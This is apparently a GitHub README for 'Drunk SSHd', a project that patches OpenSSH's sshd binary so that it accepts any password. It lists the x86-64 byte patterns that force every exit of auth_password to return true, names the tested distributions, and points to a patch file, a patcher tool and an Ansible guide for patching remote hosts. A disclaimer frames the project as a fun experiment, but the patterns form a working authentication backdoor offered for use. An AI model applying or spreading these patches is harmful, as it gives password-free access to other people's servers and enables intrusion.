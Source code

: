# Drunk SSHd
> :warning: This project was an experiment purely for fun and should be treated as such. Do NOT put in production!

Ever wondered what happens if SSHd has a little too much to drink? Well, it starts accepting any password as valid. This repo contains generic byte replace patterns that will patch any `sshd` binary to accept any password as valid.

## Notes
Although the patterns are as generic as possible, they are only for x86-64 and may not work on all OpenSSH versions. Tested versions are as follows:
- Lubuntu 19.10
- Kali 2019.4
- Linux Mint 19.3 XFCE

The binaries can be found in [samples](samples)

## Easy Patching
## Remote
Please refer to the [Ansible](ANSIBLE.md) doc.
## Local
Use my [byte pattern patcher](https://github.com/ViRb3/byte-pattern-patcher) with [this patch file](patch-drunk-sshd.json) and target your `sshd` binary. You should see `three` replaced occurances, `one` for each pattern.

## Methodology
The patterns will patch all exit routines in `auth-passwd.c`'s
```c
int auth_password(struct ssh *ssh, const char *password)
```

to return true, therefore authenticated.

## Patterns
- Patch auth_password exit routine 1
```
31 ?? 85 ?? 0f 95 ?? 21 ??
31 ?? ?? ?? b8 01 00 00 00

31 [11......] 	// XOR
85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ -> MOV EAX, 0x1
21 [11......] 	// AND -> OVERWRITTEN
```

- Patch auth_password exit routine 2
  - 2 variations (check patch file)
```
21 ?? 0f b6 ?? eb ??
b8 01 00 00 00 ?? ??

21 [11......] 	// AND -> MOV EAX, 0x1
0f b6 [11......] 	// MOVZX -> OVERWRITTEN
eb [........] 	// JMP
```

- Patch auth_password exit routine 3
  - 2 variations (check patch file)
```
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 85 ??
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 39 ??

85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ
83 3d [........] [........] [........] [........] 01 	// CMP
74 [........] 	// JZ
8b [00...101] [........] [........] [........] [........] 	// MOV
85 [11......] 	// TEST -> CMP
```